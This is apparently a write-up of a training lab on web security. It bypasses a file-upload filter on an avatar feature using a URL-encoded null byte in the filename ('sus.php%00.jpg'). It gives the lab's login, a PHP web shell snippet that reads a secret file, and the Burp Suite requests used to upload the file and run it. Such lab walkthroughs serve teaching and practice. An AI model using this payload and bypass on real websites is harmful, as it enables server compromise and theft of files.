

# Login

We can log in to your own account using the following credentials: 
```bash
wiener:peter
```
### We know this lab contains image upload function vunerablity. So lets start looking for it.

# Information gathering



We can upload the image file under Avatar lable.


We have to create a php executable file which contains a script for fetching the contents of (/home/carlos/secret).

```bash
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
or
```bash 
<?php
$sus = file_get_contents('/home/carlos/secret');
echo $sus
>
```


**Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file.**
 There is file restiction to upload. Now we have to create an executable file to execute via web shell and bypass it.

# Exploit


Try uploading the file. In BurpSuite HTTP history and notice that your image was fetched using a **GET request to /files/avatars/<YOUR-IMAGE>**. Now send the GET request
to Burp reapeater.


In BurpSuite history if you observe the file submit **POST request /my-account/avatar** send it to the repeater tab
In the Content-Disposition header, change the value of the filename parameter to include a URL encoded null byte, followed by the .jpg extension:

```bash
filename="sus.php%00.jpg"
```

Send the request and observe that the file was successfully uploaded.

Notice that there is a message refers to the sus.php file, suggesting that the null byte and .jpg extension have been stripped.

Now switch to the Repeater tab containing the **GET /files/avatars/<YOUR-IMAGE>** request. 

In the path, replace the name of your image file with sus.php and send the request. 

```bash
GET /files/avatars/sus.php HTTP/1.1
```


The Carlos's secret was returned in the response.

# Conclution
From this lab we gained the basic idea of how to bypass obfuscated file extention restriction file upload function vunerablity.

